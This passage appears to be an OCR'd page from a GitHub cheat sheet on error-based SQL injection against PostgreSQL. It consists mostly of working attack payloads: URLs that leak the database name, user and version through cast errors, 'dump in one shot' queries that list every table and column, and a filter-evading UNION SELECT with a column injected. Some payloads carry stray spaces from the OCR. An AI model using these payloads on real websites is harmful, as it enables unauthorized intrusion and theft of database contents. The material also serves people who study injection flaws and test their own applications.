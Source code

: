 > Query failed: ERROR: invalid input syntax for integer: **"kleiton0x00"** in /home/REDACTED/public_html/index.php on line...

Retrieving multiple information:  
`http://domain.com/index.php?id=1 and 1=cast(current_database() ||":"|| current_user ||":"|| version() as int)`  
Inside the error message, the information will be displayed:

> Query failed: ERROR: invalid input syntax for integer: **"munivent_database : admin_user : munivent_database : PostgreSQL 9.2.24 on x86_64-redhat-linux-gnu, compiled by gcc (GCC) 4.8.5 20150623 (Red Hat 4.8.5-39), 64-bit"** in /home/REDACTED/public_html/index.php on line...

## Retrieve data with DIOS payload

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Postgres%20-%20Error%20Based%20SQLi#retrieve-data-with-dios-payload)

- For Postgre 8.4

```
(select+array_to_string(array_agg(concat(table_name,'::',column_name)::text),$$%3Cli%3E$$)from+information_schema.columns+where+table_schema+not+in($$information_schema$$,$$pg_catalog$$))
```

- For Postgre 9.1

```
(select+string_agg(concat(table_name,'::',column_name),$$%3Cli%3E$$)from+information_schema.columns+where+table_schema+not+in($$information_schema$$,$$pg_catalog$$))
```

3. All versions

```
(select+array_to_string(array(select+table_name||':::'||column_nam e::text+from+information_schema.columns+where+table_schema+not+in($$information_schema$$,$$pg_catalog$$)),'%3Cli%3E'))
```

```
'Makman ::: '||version()||'<br>'||(SELECT array_to_string(array(SELECT ('===>'||table_name||' :: '||column_name)::text FROM information_schema.columns where table_schema='public'),'<br>')) 
```

### How to use DIOS payload?

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Postgres%20-%20Error%20Based%20SQLi#how-to-use-dios-payload)

Copy the UNION based payload which shows the vulnerable column, in my case this payload worked:  
`http://domain.com/index.php?id=1 /*!50000%55nIoN*/ /*!50000%53eLeCt*/ null,null,null,null`

Because the vulnerable column was **2**, simply replace the second _null_ with the DIOS payload:  
`http://domain.com/index.php?id=1 /*!50000%55nIoN*/ /*!50000%53eLeCt*/ null,(select+array_to_string(array(select+table_name||':::'||column_nam e::text+from+information_schema.columns+where+table_schema+not+in($$information_schema$$,$$pg_catalog$$)),'%3Cli%3E')),null,null`

## Manually dumping
